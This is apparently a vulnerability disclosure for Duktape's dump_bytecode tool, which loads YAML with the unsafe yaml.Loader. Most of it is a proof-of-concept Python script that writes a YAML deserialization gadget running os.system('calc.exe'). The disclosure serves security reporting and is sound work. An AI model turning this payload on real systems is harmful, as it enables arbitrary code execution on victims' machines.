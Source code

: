 ## :writing_hand: Description

`Duktape` is an embeddable Javascript engine with a focus on portability and compact footprint. It is vulnerable to `Arbitrary Code Execution`

## :bug: Vulnerability

`dump_bytecode` submodule uses vulnerable `yaml.Loader` in `load()` function which causes code execution.

## :male_detective: Proof of Concept

#### Installation
```bash
git clone https://github.com/svaarala/duktape
```

#### Run exploit.py
```python
#!/usr/bin/env python3

from duktape.tools import dump_bytecode

payload = '''
!!python/object/new:type
args: ['z', !!python/tuple [], {'extend': !!python/name:exec }]
listitems: "__import__('os').system('calc.exe')"
'''

with open('duk_opcodes.yaml', 'w') as f:
    f.write(payload)

    dump_bytecode.main()
```

